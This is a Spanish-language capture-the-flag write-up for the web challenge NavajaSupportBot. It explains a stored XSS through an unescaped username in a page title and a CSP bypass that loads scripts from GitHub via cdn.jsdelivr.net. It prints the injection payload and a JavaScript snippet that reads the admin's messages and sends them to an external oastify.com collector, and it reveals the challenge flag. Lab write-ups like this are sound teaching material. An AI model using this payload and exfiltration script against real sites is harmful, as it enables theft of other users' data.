 # NavajaSupportBot

> Navaja Negra CTF 2025

> 02/10/2025 09:00 CEST - 04/10/2025 11:00 CEST

* Categoría: Web
* Autor: eljoselillo7
* Dificultad: ★★★★
* Etiquetas: XSS

## Descripción

    El bot de soporte de Navaja está on fire. Lanza tus consultas al admin y cuéntale si pillaste un miguelito sospechoso o si te dejaron tirado sin cena en plena noche. 
    Aquí es donde se reportan las movidas más épicas, como las FLAGS.

## Archivos

    NavajaSupport.zip

## Resolución

El reto consiste en una aplicación web que permite a los usuarios crear y compartir mensajes de texto. Al revisar el código fuente, se observa un endpoint diseñado específicamente para enviar el mensaje al usuario admin, quien posteriormente visitará el perfil del creador del mensaje.

La flag se encuentra en el perfil del usuario admin, por lo que el objetivo es lograr la ejecución de un ataque XSS. Analizando el archivo `auth.html`, se identifica que la vulnerabilidad reside en el campo del username.

```html
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>{{ username | safe }} NavajaSupport Panel</title>

```

No obstante, la explotación no es tan trivial: existe una Content Security Policy (CSP) que solo permite cargar scripts desde `self` y `cdn.jsdelivr.net`. Esto significa que no cualquier payload será válido.

Aun así, es posible realizar un bypass ya que el dominio `cdn.jsdelivr.net` no solo aloja versiones obsoletas de librerías vulnerables, sino que también actúa como un proxy hacia GitHub. Esto abre la puerta a la carga de scripts maliciosos de forma indirecta. De hecho, en webs como [cspbypass.com](https://cspbypass.com/) ya se documenta un método funcional para saltarse esta restricción.

Por ejemplo, se puede usar el siguiente formato en la URL para cargar archivos de github:
`https://cdn.jsdelivr.net/gh/<user>/<repo>/<file>`
  
Los pasos para obtener la flag serían los siguientes:

1. **Creación del usuario malicioso**  
    Registramos un nuevo usuario cuyo nombre contenga un payload XSS válido. Por ejemplo:
    
    `</title><script src="https://cdn.jsdelivr.net/gh/eljoselillo7/Test/test4.js"></script><title>`
    
    De esta forma, al visitar nuestro perfil se cargará el script desde `cdn.jsdelivr.net`.
    
2. **Preparación del script malicioso**  
    En GitHub, creamos un repositorio con los archivos necesarios y lo enlazamos de forma que pueda ser servido a través de `cdn.jsdelivr.net`.  
    El script (`test4.js`) será el encargado de leer la flag del perfil del admin y enviarla a un servidor bajo nuestro control para su exfiltración.
    Un ejemplo de script válido sería:

```javascript
fetch('/messages')
.then(response => response.json())
.then(data => {
const jsonString = JSON.stringify(data);
const base64Data = btoa(jsonString);
const targetUrl = `https://m8vnax9buwan6b35ug48ooky1p7gv6ja.oastify.com/?data=${encodeURIComponent(base64Data)}`;

window.location = targetUrl;
})
.catch(err => console.error('Error fetching messages:', err));
```
    
1. **Forzar la visita del admin**
    Finalmente, utilizamos el endpoint que obliga al usuario admin a visitar el perfil de cualquier usuario.
    
    Al acceder a nuestro perfil, se ejecutará el payload, cargando el script malicioso y filtrando la flag hacia nuestro servidor.

> **flag: nnctf{4_p0r_l4_cSp_4m1gu1llo}**